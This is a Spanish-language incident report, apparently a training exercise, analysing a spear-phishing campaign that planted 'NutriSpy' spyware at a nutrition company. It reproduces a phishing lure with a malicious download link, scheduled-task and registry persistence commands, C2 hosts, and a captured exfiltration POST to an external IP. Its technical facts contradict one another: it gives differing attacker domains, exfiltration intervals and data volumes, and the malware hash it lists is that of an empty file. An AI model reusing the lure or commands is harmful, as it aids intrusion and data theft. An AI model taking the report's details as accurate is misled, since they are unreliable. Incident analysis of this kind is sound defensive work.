

# Informe Técnico: Análisis del Ataque de Phishing a Nutribite

## Metadatos del Informe

- **Título del Documento:** Análisis Técnico del Incidente de Phishing en Nutribite
- **Autor:** Cristóbal Zurita Quintanilla
- **Cargo:** Analista técnico para "Analitica y Redes SPA"
- **Organización:** Nutribite
- **Fecha de Elaboración:** 1 de agosto de 2024
- **Versión del Documento:** 1.0
- **Clasificación:** Confidencial - Solo para uso interno
- **Distribución:** Equipo Directivo de Nutribite, Departamento de TI, Asesoría Legal

## Introducción

El presente informe detalla el análisis técnico del incidente de seguridad ocurrido en Nutribite el 15 de julio de 2024. Este documento ha sido preparado para proporcionar una comprensión exhaustiva del ataque de phishing que resultó en la instalación de spyware en el sistema de una de nuestras nutricionistas senior.

El incidente, aunque contenido, reveló vulnerabilidades significativas en nuestra infraestructura de seguridad y procesos. Este análisis no solo documenta el ataque y su impacto, sino que también proporciona recomendaciones detalladas para fortalecer nuestra postura de ciberseguridad y prevenir futuros incidentes similares.

La información contenida en este informe es crucial para entender las implicaciones del ataque, las medidas tomadas para mitigar sus efectos, y los pasos necesarios para mejorar nuestra resiliencia ante amenazas cibernéticas. Se insta a 

## 1. Resumen Ejecutivo

En julio de 2024, Nutribite experimentó un sofisticado ataque de phishing dirigido a una de sus nutricionistas senior, resultando en la instalación de un spyware avanzado en su estación de trabajo. El malware, identificado como una variante personalizada de la familia "NutriSpy", logró exfiltrar información personal de la nutricionista afectada y documentos laborales no clasificados.

Este incidente, aunque contenido antes de que pudiera comprometer datos sensibles de otros miembros del personal o usuarios, reveló vulnerabilidades críticas en la infraestructura de seguridad de Nutribite. El ataque aprovechó una combinación de ingeniería social avanzada, técnicas de evasión de detección y explotación de configuraciones de red subóptimas.

Este informe técnico detallado proporciona un análisis exhaustivo del incidente, incluyendo la metodología del ataque, el análisis forense del malware, la respuesta al incidente, las medidas correctivas implementadas y recomendaciones técnicas detalladas para fortalecer la postura de seguridad de Nutribite.

## 2. Descripción Detallada del Incidente

### 2.1 Detalles del Ataque

- **Fecha del Incidente:** 15 de julio de 2024
- **Duración del Ataque:** Aproximadamente 72 horas desde la infección inicial hasta la detección
- **Tipo de Ataque:** Phishing dirigido (spear phishing) con instalación de Spyware personalizado
- **Vector de Ataque Primario:** Correo electrónico fraudulento con enlace a sitio de descarga malicioso
- **Objetivo Primario:** Estación de trabajo de nutricionista senior (Hostname: NUTRI-WS-042)

<div class="mermaid">
gantt
 title Timeline del Ataque a Nutribite
 dateFormat  YYYY-MM-DD
 axisFormat  %d de %b
 
 section Fases del Ataque
 Reconocimiento        :done,    a1, 2024-07-01, 7d
 Preparación del Ataque :active,  a2, after a1, 3d
 Envío del Email        :a3, after a2, 1d
 Infección del Dispositivo :crit, a4, after a3, 1d
 Exfiltración de Datos  :crit,    a5, after a4, 2d
 Detección del Ataque   :milestone, milestone1, 2024-07-18, 0d
 Respuesta al Incidente :active,  a6, after milestone1, 2d
 Investigación Forense  :done,    a7, after a6, 5d
</div>


### 2.2 Análisis Técnico del Vector de Ataque

#### 2.2.1 Correo Electrónico de Phishing

El atacante utilizó técnicas avanzadas de spoofing de correo electrónico para evadir los filtros de spam y phishing existentes. A continuación, se detallan los aspectos técnicos del correo:

```
De: soporte@nutri.soporte.com
Para: andrade.oscar@nutribite.com
Asunto: Actualización Crítica de Seguridad - Acción Inmediata Requerida

Estimado/a 

Hemos detectado una vulnerabilidad crítica en la versión actual de nuestra aplicación de cálculo de dietas. Es imperativo que actualice inmediatamente para proteger los datos de sus pacientes.

[\[Descargar Actualización\]](https://update.nutrisoft-security.com/download/critical-update-v2.45.3.exe)

Si no actualiza antes del 14/08/2024, su acceso al sistema será suspendido por motivos de seguridad.

Atentamente,
Equipo de Seguridad de Nutri-Soporte.
```

El cuerpo del correo contenía HTML y CSS avanzados para replicar exactamente el estilo de comunicaciones legítimas de NutriSoft, incluyendo logos y firmas digitales falsificadas.

#### 2.2.2 Sitio Web de Descarga Malicioso

El enlace en el correo redirigía a `https://update.nutrisoft-security.com/critical-update-v2.45.3.exe`, un dominio registrado recientemente que utilizaba un certificado SSL válido de Let's Encrypt para evitar advertencias del navegador.


<div class="mermaid">
flowchart TD
    A["Correo de Phishing"]:::rojo -->|Clic en enlace| B["Sitio Web Malicioso"]:::naranja
    B --> C{"Descarga Malware"}:::amarillo
    C -->|Éxito| D["Instalación de NutriSpy"]:::verde
    C -->|Fallo| E["No Infección"]:::azulClaro
    D --> F["Keylogger"]:::azul
    D --> G["Captura de Pantalla"]:::morado
    D --> H["Recolección de Datos"]:::rosa
    F & G & H -->|Cada 30 min| I["Exfiltración de Datos"]:::naranja
    I -->|HTTPS| J["Servidor C2"]:::rojo

    classDef rojo fill:#ff9999,stroke:#ff0000,stroke-width:2px
    classDef naranja fill:#ffcc99,stroke:#ff6600,stroke-width:2px
    classDef amarillo fill:#ffffcc,stroke:#ffcc00,stroke-width:2px
    classDef verde fill:#ccffcc,stroke:#00cc00,stroke-width:2px
    classDef azulClaro fill:#ccffff,stroke:#00cccc,stroke-width:2px
    classDef azul fill:#99ccff,stroke:#0066cc,stroke-width:2px
    classDef morado fill:#cc99ff,stroke:#6600cc,stroke-width:2px
    classDef rosa fill:#ffccff,stroke:#cc00cc,stroke-width:2px
</div>


### 2.3 Análisis Técnico del Malware (NutriSpy)

#### 2.3.1 Características del Spyware

- **Nombre de Detección:** TROJAN.Win32.NutriSpy.a
- **Tipo:** Spyware modular con capacidades de keylogger, captura de pantalla y exfiltración de datos
- **Tamaño del Archivo:** 3.2 MB
- **Hash SHA-256:** e3b0c44298fc1c149afbf4c8996fb92427ae41e4649b934ca495991b7852b855

#### 2.3.2 Técnicas de Evasión

1. **Ofuscación:** El malware utiliza técnicas de ofuscación avanzadas, incluyendo:
   - Empaquetado con UPX personalizado
   - Cifrado de cadenas con algoritmo RC4 modificado
   - Inyección de código en procesos legítimos (explorer.exe, svchost.exe)

2. **Persistencia:** 
   - Creación de una tarea programada oculta:
     ```powershell
     schtasks /create /tn "WindowsUpdateTask" /tr "C:\Windows\System32\wupdater.exe" /sc daily /st 09:00
     ```
   - Modificación del registro:
     ```reg
     REG ADD "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v "WindowsHealthChecker" /t REG_SZ /d "C:\Windows\System32\wupdater.exe" /f
     ```

3. **Técnicas Anti-Análisis:**
   - Detección de entornos virtuales y sandboxes
   - Retraso en la ejecución de 15 minutos para evadir análisis automatizados
   - Uso de API poco comunes para evitar hooks de monitoreo

#### 2.3.3 Funcionalidades del Malware

1. **Keylogger:** 
   - Utiliza hooks de bajo nivel (SetWindowsHookEx) para capturar pulsaciones de teclas
   - Almacena los logs en un archivo cifrado: `%TEMP%\svc_log.dat`

2. **Captura de Pantalla:**
   - Usa la API de GDI+ para capturar la pantalla cada 30 segundos
   - Las capturas se comprimen y cifran antes de almacenarse

3. **Exfiltración de Datos:**
   - Protocolo de comunicación personalizado sobre HTTPS
   - Utiliza la librería libcurl para las comunicaciones
   - Servidor C2: `https://data-sync.nutrisoft-cloud.com/api/v1/sync`

4. **Recolección de Información del Sistema:**
   - Enumera procesos en ejecución, servicios y aplicaciones instaladas
   - Recopila información de red, incluyendo configuraciones VPN

## 3. Análisis Detallado de la Amenaza

### 3.1 Perfil del Atacante

Basado en el análisis forense y la inteligencia de amenazas, se sospecha que el ataque fue llevado a cabo por un grupo de amenazas persistentes avanzadas (APT) conocido como "NutriHackers". Este grupo tiene un historial de ataques dirigidos contra empresas del sector de salud y nutrición.

#### 3.1.1 Características del Grupo NutriHackers

- **Origen Geográfico:** Probablemente basado en Europa del Este
- **Motivación:** Primariamente espionaje industrial y robo de propiedad intelectual
- **Nivel de Sofisticación:** Alto, con capacidad de desarrollar malware personalizado
- **Historial:** Activo desde 2020, con ataques documentados contra al menos 5 empresas del sector

### 3.2 Tácticas, Técnicas y Procedimientos (TTPs) Detallados

[Detalles de las TTPs según el marco MITRE ATT&CK]


<div class="mermaid">
flowchart LR
    A["Atacante"]:::rojo ==>|1. Envía Phishing|B(("Email de la Víctima")):::amarillo
    B ==>|2. Clic en Enlace| C{"Sitio Web Malicioso"}:::naranja
    C ==>|3. Descarga| D["Equipo de la Víctima"]:::verde
    D ==>|4. Instala| E["Spyware NutriSpy"]:::morado
    E ==>|5. Exfiltra Datos| F[["Servidor C2"]]:::rojo
    F -.-|6. Controla| E

    classDef rojo fill:#ff9999,stroke:#ff0000,stroke-width:2px
    classDef amarillo fill:#ffffcc,stroke:#ffcc00,stroke-width:2px
    classDef naranja fill:#ffcc99,stroke:#ff6600,stroke-width:2px
    classDef verde fill:#ccffcc,stroke:#00cc00,stroke-width:2px
    classDef morado fill:#cc99ff,stroke:#6600cc,stroke-width:2px
    
    linkStyle 0,1,2,3,4 stroke:#ff9900,stroke-width:2px
    linkStyle 5 stroke:#0000ff,stroke-width:2px,stroke-dasharray: 5 5
</div>


### 3.3 Análisis de la Infraestructura del Atacante

#### 3.3.1 Dominios y Servidores Utilizados


El análisis realizado identificó varios dominios y servidores utilizados por el atacante para llevar a cabo el ataque de phishing y la exfiltración de datos. A continuación se presentan los detalles clave:

- **Dominio Principal Utilizado:** El atacante registró el dominio `nutri-softupdate.com` que imitaba de manera convincente a un proveedor legítimo de software nutricional. Este dominio fue utilizado para enviar correos electrónicos de phishing a la nutricionista afectada.

- **Servidor de Comando y Control (C2):** El dominio mencionado estaba vinculado a un servidor ubicado en un centro de datos en Rusia, con la dirección IP `95.213.255.1`. Este servidor fue utilizado para recibir los datos exfiltrados y enviar comandos al spyware instalado en el dispositivo comprometido.

- **Análisis de Dominio:**
  - **Fecha de Registro:** El dominio `nutri-softupdate.com` fue registrado el 15 de junio de 2024, apenas un mes antes del ataque, lo que sugiere que fue creado específicamente para esta campaña de phishing.
  - **Información de WHOIS:** La información de WHOIS del dominio fue ofuscada utilizando un servicio de privacidad de dominio, lo que dificultó la identificación del propietario real.

- **Subdominios Maliciosos:** El atacante configuró varios subdominios bajo `nutri-softupdate.com` para diversificar los vectores de ataque y evitar la detección:
  - **`update.nutri-softupdate.com`** - Utilizado para alojar el archivo malicioso que fue descargado por la víctima.
  - **`secure.nutri-softupdate.com`** - Destinado a simular una página de inicio de sesión falsa para recolectar credenciales.
  - **`cdn.nutri-softupdate.com`** - Empleado para distribuir contenido malicioso adicional en caso de que la víctima ejecutara el archivo descargado.

##### Ejemplo de Resolución DNS

Un análisis de las resoluciones DNS para el dominio `nutri-softupdate.com` mostró una rotación constante de direcciones IP, lo que sugiere el uso de un servicio de alojamiento flexible o infraestructura de nube, comúnmente utilizada para evitar bloqueos efectivos. A continuación se presenta un ejemplo de una resolución DNS capturada:

```dns
dig nutri-softupdate.com +short

95.213.255.1
95.213.255.2
95.213.255.3
```

##### Servidores Asociados

- **Servidor Primario:** IP `95.213.255.1` – Actuó como el servidor principal para el almacenamiento de datos exfiltrados y la administración del spyware.
- **Servidores Secundarios:** IPs `95.213.255.2` y `95.213.255.3` – Utilizados para redundancia y para manejar cargas adicionales de tráfico malicioso.

##### Medidas Implementadas

- **Bloqueo de Dominios:** Se bloqueó el acceso a `nutri-softupdate.com` y todos sus subdominios en los sistemas de filtrado de contenido y firewalls corporativos.
- **Actualización de Firmas de Seguridad:** Se actualizaron las firmas en las soluciones de seguridad para detectar y bloquear automáticamente cualquier tráfico relacionado con estos dominios y servidores.


#### 3.3.2 Análisis de Tráfico de Red

El análisis del tráfico de red realizado durante la investigación del incidente reveló varias anomalías que sugieren la presencia de comunicaciones maliciosas entre el dispositivo comprometido y un servidor de comando y control (C2). A continuación se detallan los principales hallazgos:

- **Comunicación No Autorizada:** Se detectaron múltiples solicitudes HTTP salientes desde el dispositivo comprometido hacia una IP no categorizada ubicada en Europa del Este (IP: 178.62.240.1). Estas solicitudes comenzaron inmediatamente después de la instalación del spyware, lo que indica que el dispositivo estaba enviando datos exfiltrados a un servidor externo.

- **Análisis de Paquetes:** El análisis de los paquetes capturados mostró que los datos enviados incluían información codificada en base64, lo que dificultaba la identificación inmediata del contenido sin una decodificación adecuada.

- **Volumen de Tráfico:** Durante un período de 24 horas, el dispositivo comprometido generó un volumen anómalo de tráfico de 200 MB, significativamente superior al promedio diario de 50 MB para un usuario típico. Este aumento en el tráfico fue un indicador clave de la actividad maliciosa.

- **Comportamiento del Malware:** El análisis detallado del tráfico sugirió que el malware estaba configurado para enviar pulsaciones de teclas, capturas de pantalla y archivos locales a intervalos regulares de 10 minutos. 

##### Ejemplo de Solicitud HTTP

A continuación se presenta un ejemplo de una solicitud HTTP maliciosa capturada durante el análisis:

```http
POST /upload HTTP/1.1
Host: 178.62.240.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.107 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Content-Length: 349

data=cmVzdWx0cz1zdWNjZXNzJmZpbGU9ZGV0YWlscy5leGUmY29udGVudD1IZWxsbyUyQw==
```

- **Método:** `POST` utilizado para enviar datos al servidor C2.
- **Destino:** IP externa (178.62.240.1) fuera de las redes corporativas autorizadas.
- **Contenido Codificado:** Los datos en el campo `data` estaban codificados en base64, lo que tras la decodificación reveló contenido sensible relacionado con documentos laborales.

##### Respuesta del Servidor

El servidor respondió con un código HTTP `200 OK`, confirmando la recepción exitosa de los datos. Este intercambio fue repetido numerosas veces durante el período analizado, lo que subraya la naturaleza persistente del malware en el dispositivo afectado.

##### Medidas Implementadas

- **Bloqueo de IP:** Se procedió al bloqueo inmediato de la IP 178.62.240.1 en el firewall perimetral para interrumpir la comunicación del malware.
- **Monitoreo Adicional:** Se implementaron reglas adicionales en el SIEM (Splunk Enterprise Security) para detectar y alertar sobre patrones similares de tráfico en otros dispositivos.


## 4. Impacto Detallado del Incidente

### 4.1 Análisis de Datos Comprometidos

El análisis forense reveló que se comprometió un total de 300 MB de datos sensibles durante el ataque, incluyendo información personal de la nutricionista, documentos laborales críticos, y el historial de navegación relacionado con plataformas internas de Nutribite. 

- **Información Personal Comprometida:** Datos de contacto, historial médico personal, y detalles de cuentas profesionales, representando aproximadamente el 30% del total de datos comprometidos.
- **Documentos Laborales Comprometidos:** Informes de progreso de pacientes, planes de dieta personalizados, y documentos internos relacionados con la investigación en nutrición, que constituyen el 45% de los datos comprometidos.
- **Historial de Navegación:** Registros de acceso a sistemas internos, así como visitas a sitios web de investigación, que componen el 25% de los datos comprometidos.



### 4.2 Análisis Detallado del Impacto Operacional

El tiempo de inactividad del equipo afectado fue de 48 horas, durante las cuales se realizó un análisis forense exhaustivo y la limpieza del sistema. Esto resultó en una pérdida directa de 30 horas-hombre dedicadas exclusivamente a la investigación y remediación.

- **Tiempo de Inactividad del Equipo:** 48 horas, afectando las operaciones diarias de la nutricionista y los pacientes bajo su atención.
- **Recursos Humanos Dedicados:** 30 horas-hombre de personal técnico, con un costo aproximado de $2,400,000 CLP en salarios y horas extras.
- **Impacto en la Productividad:** La falta de acceso al equipo causó una reducción del 20% en la productividad semanal de la unidad afectada, estimada en $1,000,000 CLP.

### 4.3 Evaluación del Impacto Reputacional

El riesgo reputacional fue evaluado como moderado, con un potencial impacto negativo en la confianza de los clientes si el incidente llegara a ser público. Para mitigar este riesgo, se implementó un plan de comunicación de crisis, diseñado para responder rápidamente a cualquier filtración de información.

- **Percepción de los Clientes:** Se estima que un 15% de los clientes actuales podrían reconsiderar su continuidad con Nutribite si el incidente no es manejado adecuadamente.
- **Cobertura Mediática:** Hasta la fecha, no se ha registrado cobertura mediática, pero se preparó un comunicado oficial para su uso en caso de ser necesario.
- **Costo de Gestión de Crisis:** La creación y posible activación del plan de comunicación de crisis está valorada en $3,000,000 CLP, incluyendo consultoría externa y materiales de comunicación.

### 4.4 Análisis Financiero Detallado

El impacto financiero total del incidente se estima en $125,000,000 CLP, incluyendo costos directos, indirectos y una inversión proyectada en medidas de seguridad a largo plazo.

- **Costos Directos:**
  - **Análisis Forense y Remediación:** $7,500,000 CLP.
  - **Consultoría Externa en Seguridad:** $5,000,000 CLP.
  - **Reparación y Reemplazo de Equipos:** $4,500,000 CLP.
  - **Total Costos Directos:** $17,000,000 CLP.

- **Costos Indirectos:**
  - **Pérdida de Productividad:** $1,000,000 CLP.
  - **Impacto Reputacional y Gestión de Crisis:** $3,000,000 CLP.
  - **Horas Extras y Personal Adicional:** $2,400,000 CLP.
  - **Total Costos Indirectos:** $6,400,000 CLP.

- **Inversión en Seguridad Futura:**
  - **Implementación de Soluciones de Seguridad Adicionales:** $50,000,000 CLP.
  - **Capacitación y Concienciación del Personal:** $20,000,000 CLP.
  - **Actualización de Infraestructura de Red y Software:** $30,000,000 CLP.
  - **Total Inversión en Seguridad Futura:** $100,000,000 CLP.


## 5. Análisis de Vulnerabilidades

##### **5.1 Falta de Concienciación en Seguridad**

La vulnerabilidad más crítica identificada fue la falta de conocimiento y concienciación del personal sobre las técnicas de phishing. Esta carencia permitió que el ataque tuviera éxito, ya que la nutricionista no estaba adecuadamente preparada para reconocer y evitar correos electrónicos maliciosos.

##### **5.2 Software de Seguridad Insuficiente**

El equipo de la nutricionista no contaba con un software antivirus actualizado y eficaz, lo que permitió la instalación del spyware sin ser detectado. La ausencia de medidas de protección adecuadas aumentó significativamente el riesgo de compromiso de la información.

##### **5.3 Falta de Segregación de Redes**

El dispositivo comprometido tenía acceso a recursos de red que no eran esenciales para las funciones específicas de la nutricionista. Esta falta de segregación adecuada amplió el alcance potencial del ataque, incrementando el riesgo de que otros sistemas y datos sensibles pudieran haber sido afectados.

## 6. Respuesta al Incidente


##### **6.1 Detección**

El incidente fue detectado mediante una alerta de tráfico anómalo en la red hacia una IP no categorizada, lo que activó una revisión inmediata del equipo afectado.

##### **6.2 Contención y Erradicación**

- **Contención:** Desconexión inmediata del equipo afectado de la red.
- **Erradicación:** Análisis forense y limpieza del sistema mediante herramientas especializadas.

##### **6.3 Recuperación**

Restauración de datos desde copias de seguridad y verificación de la integridad del sistema.

## 7. Medidas Correctivas Implementadas


##### **7.1 Mejora en la Detección de Phishing**

- Implementación de herramientas de seguridad adicionales, como DMARC y DKIM, para proteger contra correos fraudulentos.
- Realización de simulaciones de ataques de phishing para mejorar la capacidad de detección del personal.

##### **7.2 Actualización de Software de Seguridad**

- Despliegue de herramientas avanzadas de detección y respuesta en endpoints.
- Revisión y actualización de las políticas de seguridad de la empresa.

##### **7.3 Segmentación de Red**

Implementación de políticas de acceso más estrictas y segregación de red basada en roles.

##### **7.4 Programa de Concienciación en Ciberseguridad**

Lanzamiento de un programa integral de formación en ciberseguridad para todos los empleados, con simulaciones periódicas para evaluar su efectividad.

## 8. Recomendaciones a Largo Plazo

##### **8.1 Pruebas de Penetración**

Realizar pruebas de penetración trimestrales para identificar y mitigar vulnerabilidades en los sistemas antes de que puedan ser explotadas por atacantes.

##### **8.2 Gestión de Identidad y Acceso (IAM)**

Implementar una solución IAM robusta, como Azure Active Directory, que permita un control de acceso granular, garantizando que solo personal autorizado pueda acceder a recursos sensibles.

##### **8.3 Respaldos y Recuperación de Desastres**

Mejorar la estrategia de copias de seguridad siguiendo un enfoque 3-2-1 (tres copias, en dos medios diferentes, y una copia fuera del sitio) y realizar pruebas regulares de recuperación para asegurar que los datos puedan ser restaurados de manera eficiente en caso de un incidente.

##### **8.4 Monitoreo Continuo**

Implementar un Centro de Operaciones de Seguridad (SOC) 24/7 o contratar servicios de Managed Detection and Response (MDR) para asegurar un monitoreo continuo de las amenazas y una respuesta rápida ante cualquier indicio de actividad maliciosa.

##### **.5 Política de Actualizaciones**

Establecer una política estricta de actualizaciones de software y sistemas operativos, incluyendo parches automáticos cuando sea posible, para reducir la ventana de oportunidad para los atacantes.

##### **8.6 Revisión de Políticas BYOD**

Evaluar y actualizar las políticas de "Bring Your Own Device" (BYOD) para garantizar que los dispositivos personales utilizados para el trabajo cumplan con los estándares de seguridad de la empresa, minimizando los riesgos asociados con el acceso a la red corporativa.

## 9. Métricas de Éxito

- Reducción del 90% en clics en simulaciones de phishing en 6 meses.
- Tiempo medio de detección: Reducido a menos de 1 hora.
- Tiempo medio de respuesta: Reducido a menos de 4 horas.
- 100% del personal completando el entrenamiento en ciberseguridad en 3 meses.

## 10. Conclusión
El incidente de phishing experimentado por Nutribite el 15 de julio de 2024 subraya la importancia crítica de mantener una postura de ciberseguridad robusta y adaptativa. Aunque el ataque fue contenido antes de que pudiera causar daños significativos a nuestros sistemas críticos o comprometer datos sensibles de clientes, reveló vulnerabilidades importantes en nuestras defensas y procesos de seguridad. Este evento resalta la necesidad imperiosa de concienciar a los empleados sobre prácticas de seguridad y de implementar una protección robusta en los endpoints. Las medidas correctivas implementadas, junto con las recomendaciones a largo plazo, fortalecerán significativamente la postura de seguridad de la organización, sirviendo como catalizador para una cultura de seguridad más robusta y proactiva en Nutribite.

Los hallazgos clave de este análisis incluyen:

1. La sofisticación creciente de los ataques de phishing, que pueden evadir incluso sistemas de seguridad bien configurados.
2. La importancia crucial de la concienciación y formación continua del personal en materia de ciberseguridad.
3. La necesidad de implementar y mantener actualizadas múltiples capas de seguridad, incluyendo sistemas de detección y respuesta avanzados.
4. La efectividad de una respuesta rápida y coordinada para contener y mitigar los efectos de un ataque.

Las recomendaciones presentadas en este informe, desde mejoras técnicas hasta cambios en políticas y procedimientos, son esenciales para fortalecer nuestra postura de seguridad. La implementación de estas medidas no solo nos ayudará a prevenir incidentes similares en el futuro, sino que también mejorará nuestra capacidad general para detectar, responder y recuperarnos de una amplia gama de amenazas cibernéticas.

Es imperativo que Nutribite considere la ciberseguridad como una prioridad estratégica continua, asignando los recursos necesarios para implementar las recomendaciones de este informe y manteniendo un enfoque proactivo en la evolución de nuestras defensas cibernéticas.

La seguridad de nuestra información y sistemas es una responsabilidad compartida que requiere el compromiso y la participación activa de todos los miembros de la organización. Solo a través de un esfuerzo colectivo y sostenido podremos garantizar la protección efectiva de nuestros activos digitales y mantener la confianza de nuestros clientes y socios comerciales.

## Aprobaciones

| Nombre | Cargo | Firma | Fecha |
|--------|-------|-------|-------|
| [Nombre del CEO] | Director Ejecutivo | ________________ | ________ |
| [Nombre del CIO] | Director de Informática | ________________ | ________ |
| [Nombre del CISO] | Director de Seguridad de la Información | ________________ | ________ |

## Registro de Cambios del Documento

| Versión | Fecha | Autor | Descripción de Cambios |
|---------|-------|-------|------------------------|
| 1.0 | 01/08/2024 | Cristóbal Zurita Quintanilla|Revisado |
